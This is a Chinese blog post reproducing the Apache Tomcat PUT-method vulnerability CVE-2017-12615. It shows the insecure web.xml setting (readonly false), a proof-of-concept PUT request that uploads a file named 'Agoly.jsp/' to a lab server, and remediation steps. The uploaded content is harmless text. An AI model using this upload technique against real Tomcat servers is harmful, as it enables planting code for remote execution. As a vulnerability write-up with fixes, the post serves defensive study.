






# Apache Tomcat RCE（CVE-2017-12615 ）漏洞案例分析 - Agoly - 博客园

> 原文：[`www.cnblogs.com/qmfsun/p/7575394.html`](https://www.cnblogs.com/qmfsun/p/7575394.html)

首先搭建 tomcat 环境：

下载当前项目的版本的 tomcat


在 linux 服务器上部署安装 tomcat




开始验证测试：

## 漏洞复现

在 Tomcat 的 conf（配置目录下）/web.xml 配置文件中添加 readonly 设置为 false 时，将导致该漏洞产生：



```
<init-param>
    <param-name>readonly</param-name>
    <param-value>false</param-value>
</init-param>

```


```
配置好之后，重启 tomcat 环境
开启 BurpSuite 拦截
```





**PUT /Agoly.jsp/ HTTP/1.1**
Host: 192.168.10.98:8080
Proxy-Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.96 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate, sdch
Accept-Language: zh-CN,zh;q=0.8
Content-Length: 15

Agoly 275212937





## **修复方案**

1.升级到 Apache Tomcat 更高版本。

2.通过测试，注释掉 readonly 配置或配置 readonly 的值为 true 时 PUT 不生效。

    用户可以禁用 PUT 方法来防护此漏洞，操作方式如下：

    在 Tomcat 的 web.xml 文件中配置 org.apache.catalina.servlets.DefaultServlet 的初始化参数

```
<init-param> 
<param-name>readonly</param-name> 
<param-value>true</param-value> 
</init-param>
```

 参考：
http://www.moonsec.com/post-789.html
https://yq.aliyun.com/articles/213777
https://yq.aliyun.com/articles/213792?spm=5176.100239.blogcont213777.21.Nfj5Dj

http://www.4hou.com/vulnerable/7743.html